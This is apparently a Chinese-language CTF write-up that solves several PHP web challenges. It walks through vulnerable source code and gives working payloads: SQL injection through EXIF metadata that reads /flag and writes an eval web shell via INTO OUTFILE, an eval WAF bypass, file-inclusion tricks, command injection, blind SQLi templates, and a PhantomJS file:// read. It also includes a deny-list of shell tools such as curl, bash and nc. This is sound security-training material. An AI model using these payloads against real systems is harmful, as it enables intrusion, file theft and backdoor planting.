

### 你没见过的注入

登录后发现有文件上传接口，上次文件后可得到文件名，文件路径，文件类型信息

通过上次内容回显推测代码 

```php
$filetype = (new finfo)->file($_FILES['file']['tmp_name']);
```

finfo->file()可以输出图片的EXIF信息 我们可以用ps生成一张图片的copyright，内容可控

```sql
报错回显：
INSERT INTO file(filename,filepath,filetype) VALUES ('333185d44ecf74df3a914f392e090d99.zip','upload/333185d44ecf74df3a914f392e090d99.zip','JPEG image data, Exif standard: [TIFF image data, little-endian, direntries=1, copyright=xx'#], progressive, precision 8, 2x2, frames 3');

```

最后可以直接读文件，或堆叠注入写入shell

```
'^(extractvalue(1,concat(0,(select/**/load_file('/flag))))); 

');select 0x3c3f706870206576616c28245f504f53545b305d293b into outfile '/var/www/html/4.php';
```

### 给你shell

#### 第一层

`/^[\"0-9A-Z]*}$/` 正则可以匹配的json数据 `{"secret":115}`

haveFun函数可以判断爆破的范围

通过php的变量的强制转换，将字符串转成整数

```php
<?php
//It's no need to use scanner. Of course if you want, but u will find nothing.
error_reporting(0);
include "config.php";

if (isset($_GET['view_source'])) {
    show_source(__FILE__);
    die;
}

function checkCookie($s) {
    $arr = explode(':', $s);
    if ($arr[0] === '{"secret"' && preg_match('/^[\"0-9A-Z]*}$/', $arr[1]) && count($arr) === 2 ) {
        return true;
    } else {
        if ( !theFirstTimeSetCookie() ) setcookie('secret', '', time()-1);
        return false;
    }
}

function haveFun($_f_g) {
    $_g_r = 32;
    $_m_u = md5($_f_g);
    $_h_p = strtoupper($_m_u);
    for ($i = 0; $i < $_g_r; $i++) {
        $_i = substr($_h_p, $i, 1);
        $_i = ord($_i);
        print_r($_i & 0xC0);
    }
    die;
}

isset($_COOKIE['secret']) ? $json = $_COOKIE['secret'] : setcookie('secret', '{"secret":"' . strtoupper(md5('y1ng')) . '"}', time()+7200 );
checkCookie($json) ? $obj = @json_decode($json, true) : die('no');

if ($obj && isset($_GET['give_me_shell'])) {
    ($obj['secret'] != $flag_md5 ) ? haveFun($flag) : echo "here is your webshell: $shell_path";
}

die;
```

#### 第二层

```php
<?php
error_reporting(0);
session_start();

//there are some secret waf that you will never know, fuzz me if you can
require "hidden_filter.php";

if (!$_SESSION['login'])
    die('<script>location.href=\'./index.php\'</script>');

if (!isset($_GET['code'])) {
    show_source(__FILE__);
    exit();
} else {
    $code = $_GET['code'];
    if (!preg_match($secret_waf, $code)) {
        //清空session 从头再来
        eval("\$_SESSION[" . $code . "]=false;"); //you know, here is your webshell, an eval() without any disabled_function. However, eval() for $_SESSION only XDDD you noob hacker
    } else die('hacker');
}

```

fuzz过滤了

```
f、sys、include
括号、引号、分号
^ &等运算符
空格 / \ $ ` * #等符号
```

payload 读取flag

```
?code=]=1?><?=require~%d0%99%93%9e%98?>
```

### 

### WEB_ALL_INFO_U_WANT

```php
<?php
error_reporting(0);

//give you all information you want
if (isset($_GET['all_info_i_want'])) {
    phpinfo();
}

if (isset($_GET['file'])) {
    $file = "/var/www/html/" . $_GET['file'];
    //really baby include
    include($file);
}

?>
```

解法1：包含Nginx日志

解法2：包含临时文件



php会在脚本执行结束后删掉临时文件，而段错误方法就是让php执行突然中止这样临时文件就保留了。

文件包含自身这样程序就进入了死循环，之后可以被用户打断或者nginx超时，这样php执行就终止，没有删除临时文件

```
<html>
<form action="https://url/all_info_u_want.php?file=all_info_u_want.php&all_info_i_want" method="post" enctype="multipart/form-data">
    <input type="file" name="filename">
    <input type="submit" value="提交">
</form>
</body>
</html>
```


### WEB\_WUSTCTF\_朴实无华\_Revenge(浮点精度 MD5爆破 命令执行)

题目源码

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);

function isPalindrome($str){
    $len=strlen($str);
    $l=1;
    $k=intval($len/2)+1;
    for($j=0;$j<$k;$j++)
        if (substr($str,$j,1)!=substr($str,$len-$j-1,1)) {
            $l=0;
            break;
        }
    if ($l==1) return true;
    else return false;
}

//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    $numPositve = intval($num);
    $numReverse = intval(strrev($num));
    if (preg_match('/[^0-9.]/', $num)) {
        die("非洲欢迎你1");
    } else {
        if ( (preg_match_all("/\./", $num) > 1) || (preg_match_all("/\-/", $num) > 1) || (preg_match_all("/\-/", $num)==1 && !preg_match('/^[-]/', $num))) {
            die("没有这样的数");
        }
    }
    if ($num != $numPositve) {
        die('最开始上题时候忘写了这个，导致这level 1变成了弱智，怪不得这么多人solve');
    }

    if ($numPositve <= -999999999999999999 || $numPositve >= 999999999999999999) { //在64位系统中 intval()的上限不是2147483647 省省吧
        die("非洲欢迎你2");
    }
    if( $numPositve === $numReverse && !isPalindrome($num) ){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}

//level 2
if (isset($_GET['md5'])){
    $md5=$_GET['md5'];
    if ($md5==md5(md5($md5)))
        echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
    else
        die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("more", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("tail", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("less", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("head", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("tac", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("sort", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("nl", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("$", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("curl", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("bash", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("nc", "36dCTFShow", $get_flag);
        $get_flag = str_ireplace("php", "36dCTFShow", $get_flag);
        if (preg_match("/['\*\"[?]/", $get_flag)) {
            die('非预期修复*2');
        }
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

#### 考点1 浮点精度

看代码逻辑需要传入字符串满足：其正序和逆序转成int后相等，不能说回文串，`intval($num)==$num` 

实际上考点是浮点精度`"1.000000000000001"==1`，可以被非预期`0.00`

#### 考点2 MD5爆破

需要找一个满足`$md5==md5(md5($md5))`的值

写了一个快速爆破的脚本

```php
<?php
function check($num){
	// print($num."\n");
	if(md5(md5($num))==$num){
		var_dump(md5(md5($num)));
		var_dump($num);
		die(0);
	}
}
for($i=1;$i<=100;$i++){
	print("len:".$i."start\n");
	$t1=pow(10,$i-1);
	$t2=pow(10,$i);
	for($j=0;$j<$t1;$j++){
		check("0e".str_pad($j,$i,"0",STR_PAD_LEFT));
	}
	for($j=$t1;$j<$t2;$j++){
		check("0e".$j);
	}
}
?>
```

#### 考点3 命令注入

```
uniq</var/www/html/flag.ph\p
rev</var/www/html/flag.ph\p
```


### Login_Only_For_36D

时间盲注

```
or/**/if((password/**/like/**/BINARY/**/"{}%"),sleep(5),0)#

or(if(right(left(`password`,{j}),1)in(binary({hex(temp_text + chr(i))})),sleep(3),1))#
```

### RemoteImageDownloader

看起来像是ssrf

存在PhantomJS任意文件读取漏洞，通过`file://`加载的文件被认为是符合Same Origin Policy的同源文件

参考  [PhantomJs Arbitrary file read](https://web.archive.org/web/20191220171022/https://www.darkmatter.ae/blogs/breaching-the-perimeter-phantomjs-arbitrary-file-read/)

在服务器上设置页面

```html
<script>
x=new XMLHttpRequest;
x.onload=function(){
	document.write(this.responseText)
}
x.open("GET","file:///flag");
x.send();
</script>
```

